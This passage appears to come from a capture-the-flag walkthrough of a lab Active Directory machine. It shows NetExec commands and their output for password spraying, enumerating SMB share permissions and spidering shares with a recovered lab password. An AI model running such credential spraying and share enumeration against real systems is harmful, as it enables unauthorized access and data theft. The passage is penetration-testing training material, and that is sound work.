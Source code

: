 ```
SMB         10.10.10.182    445    CASC-DC1         [-] cascade.local\b.hanson:rY4n5eva STATUS_LOGON_FAILURE 
SMB         10.10.10.182    445    CASC-DC1         [-] cascade.local\d.burman:rY4n5eva STATUS_LOGON_FAILURE 
SMB         10.10.10.182    445    CASC-DC1         [-] cascade.local\BackupSvc:rY4n5eva STATUS_LOGON_FAILURE 
SMB         10.10.10.182    445    CASC-DC1         [-] cascade.local\j.allen:rY4n5eva STATUS_LOGON_FAILURE 
SMB         10.10.10.182    445    CASC-DC1         [-] cascade.local\i.croft:rY4n5eva STATUS_LOGON_FAILURE 
SMB         10.10.10.182    445    CASC-DC1         [-] cascade.local\CascGuest:rY4n5eva STATUS_LOGON_FAILURE
```
No one other than user `r.thompson` uses that password.
###### `Further Enumerating SMB using the r.thompson Creds`
```
# netexec smb 10.10.10.182 -d 'cascade.local' -u 'r.thompson' -p 'rY4n5eva' --shares   
SMB         10.10.10.182    445    CASC-DC1         [*] Windows 7 / Server 2008 R2 Build 7601 x64 (name:CASC-DC1) (domain:cascade.local) (signing:True) (SMBv1:False)
SMB         10.10.10.182    445    CASC-DC1         [+] cascade.local\r.thompson:rY4n5eva 
SMB         10.10.10.182    445    CASC-DC1         [*] Enumerated shares
SMB         10.10.10.182    445    CASC-DC1         Share           Permissions     Remark
SMB         10.10.10.182    445    CASC-DC1         -----           -----------     ------
SMB         10.10.10.182    445    CASC-DC1         ADMIN$                          Remote Admin
SMB         10.10.10.182    445    CASC-DC1         Audit$                          
SMB         10.10.10.182    445    CASC-DC1         C$                              Default share
SMB         10.10.10.182    445    CASC-DC1         Data            READ            
SMB         10.10.10.182    445    CASC-DC1         IPC$                            Remote IPC
SMB         10.10.10.182    445    CASC-DC1         NETLOGON        READ            Logon server share 
SMB         10.10.10.182    445    CASC-DC1         print$          READ            Printer Drivers
SMB         10.10.10.182    445    CASC-DC1         SYSVOL          READ            Logon server share 
```
###### `Spidering SMB share using NetExec`
```
┌──(root㉿kali)-[/home/ringbuffer/Downloads/Cascade.htb]
└─# netexec smb 10.10.10.182 -d 'cascade.local' -u 'r.thompson' -p 'rY4n5eva' --spider Data
SMB         10.10.10.182    445    CASC-DC1         [*] Windows 7 / Server 2008 R2 Build 7601 x64 (name:CASC-DC1) (domain:cascade.local) (signing:True) (SMBv1:False)
SMB         10.10.10.182    445    CASC-DC1         [+] cascade.local\r.thompson:rY4n5eva 
SMB         10.10.10.182    445    CASC-DC1         [*] Started spidering
SMB         10.10.10.182    445    CASC-DC1         [*] Spidering .
SMB         10.10.10.182    445    CASC-DC1         [*] Done spidering (Completed in 3.288020133972168)
```
Nothing Interesting comes out of it. Trying it out another way.
```
# netexec smb 10.10.10.182 -d 'cascade.local' -u 'r.thompson' -p 'rY4n5eva' -M spider_plus
└─# netexec smb 10.10.10.182 -d 'cascade.local' -u 'r.thompson' -p 'rY4n5eva' -M spider_plus          
SMB         10.10.10.182    445    CASC-DC1         [*] Windows 7 / Server 2008 R2 Build 7601 x64 (name:CASC-DC1) (domain:cascade.local) (signing:True) (SMBv1:False)
SMB         10.10.10.182    445    CASC-DC1         [+] cascade.local\r.thompson:rY4n5eva 
SPIDER_PLUS 10.10.10.182    445    CASC-DC1         [*] Started module spidering_plus with the following options:
SPIDER_PLUS 10.10.10.182    445    CASC-DC1         [*]  DOWNLOAD_FLAG: False
SPIDER_PLUS 10.10.10.182    445    CASC-DC1         [*]     STATS_FLAG: True
SPIDER_PLUS 10.10.10.182    445    CASC-DC1         [*] EXCLUDE_FILTER: ['print$', 'ipc$']
SPIDER_PLUS 10.10.10.182    445    CASC-DC1         [*]   EXCLUDE_EXTS: ['ico', 'lnk']
SPIDER_PLUS 10.10.10.182    445    CASC-DC1         [*]  MAX_FILE_SIZE: 50 KB
SPIDER_PLUS 10.10.10.182    445    CASC-DC1         [*]  OUTPUT_FOLDER: /tmp/nxc_hosted/nxc_spider_plus
SMB         10.10.10.182    445    CASC-DC1         [*] Enumerated shares
```